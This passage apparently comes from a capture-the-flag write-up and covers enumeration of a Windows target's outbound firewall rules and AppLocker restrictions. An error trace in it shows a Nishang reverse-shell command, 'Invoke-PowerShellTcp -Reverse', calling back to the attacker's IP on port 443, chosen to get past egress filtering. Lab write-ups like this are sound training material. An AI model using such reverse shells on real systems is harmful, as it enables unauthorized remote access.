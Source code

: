     Name                            : Public
    Enabled                         : True
    DefaultInboundAction            : Block
    DefaultOutboundAction           : Block
    ...[snip]...
    

Checking the outbound firewall, it seems that only 80 and 443 are allowed out
on TCP:

    
    
    PS C:\> Get-NetFirewallRule -Direction Outbound -Enabled True
    ...[snip]...
    Name                  : {3F5C5261-77AE-4F72-9C2A-4BFCE6CD8CBC}
    DisplayName           : http_out
    Description           :
    DisplayGroup          :
    Group                 :                             
    Enabled               : True                   
    Profile               : Any                        
    Platform              : {}
    Direction             : Outbound                   
    Action                : Allow                       
    EdgeTraversalPolicy   : Block            
    LooseSourceMapping    : False
    LocalOnlyMapping      : False             
    Owner                 :                   
    PrimaryStatus         : OK                
    Status                : The rule was parsed successfully from the store.
                            (65536)
    EnforcementStatus     : NotApplicable               
    PolicyStoreSource     : PersistentStore     
    PolicyStoreSourceType : Local
    ...[snip]...
    

That’ll be good to know going forward. Had I used some other port while
troubleshooting my reverse shell, that would have been an extra real headache.

#### AppLocker

I noted some weirdness with PowerShell earlier. From this 32-bit process, I
can only really run the 32-bit PowerShell, but the 64-bit version is blocked
by AppLocker. There’s other blocks in place.

For example, I can’t write a `.bat`, `.exe`, or `.ps1` files:

    
    
    PS C:\programdata> echo "test" > 0xdf.txt
    PS C:\programdata> echo "test" > 0xdf.bat
    Invoke-PowerShellTcp : Access to the path 'C:\programdata\0xdf.bat' is denied.
    At line:127 char:1
    + Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.6 -Port 443
    + ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
        + CategoryInfo          : NotSpecified: (:) [Write-Error], WriteErrorExcep 
       tion
        + FullyQualifiedErrorId : Microsoft.PowerShell.Commands.WriteErrorExceptio 
       n,Invoke-PowerShellTcp
     
